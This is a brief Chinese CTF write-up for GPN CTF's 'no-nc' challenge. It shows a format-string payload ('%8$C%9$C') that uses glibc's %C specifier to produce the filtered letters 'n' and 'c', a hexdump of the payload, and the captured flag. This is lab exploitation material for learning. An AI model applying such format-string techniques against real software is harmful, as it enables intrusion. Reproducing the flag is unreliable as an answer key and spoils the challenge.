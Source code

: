 # 思路
- 格式化字符串，调试发现%71$为文件路径,加个\x00就为程序路径

## %C方法
%C 是 glibc 在支持 宽字符输出（wchar_t） 时的一个格式符（相当于 %lc，表示输出 wchar_t 类型的字符）。
它已经在 C99 标准中废弃，但在某些实现中依然存在（尤其是老版本的 glibc）
```
[DEBUG] Received 0x17 bytes:
    b'Give me a file to read\n'
[*] 00000000  25 38 24 43  25 39 24 43  00 00 00 00  00 00 00 00  │%8$C│%9$C│····│····│
    00000010  6e 00 00 00  00 00 00 00  63 00 00 00  00 00 00 00  │n···│····│c···│····│
    00000020
```
![](https://r2.20161023.xyz/pic/20250622092557881.png)

# 误区
题目中过滤了“n”，“c”， 以为过滤了字符串任意写，原来nc是程序名称，fuck


# getshell
```
[*] Closed connection to portshire-of-uncomfortably-powerful-hope.gpn23.ctf.kitctf.de port 443
(pip_venv) ➜  no-nc strings nc_remote |grep {
GPNCTF{up_aND_Down_a1L_arOUNd_GO3s_Th3_N_DIM3nsI0Na1_Circ1e_wtf_i5_7H1s_Fl4g}
(pip_venv) ➜  no-nc %8$C
```
![](https://r2.20161023.xyz/pic/20250622092238163.png)
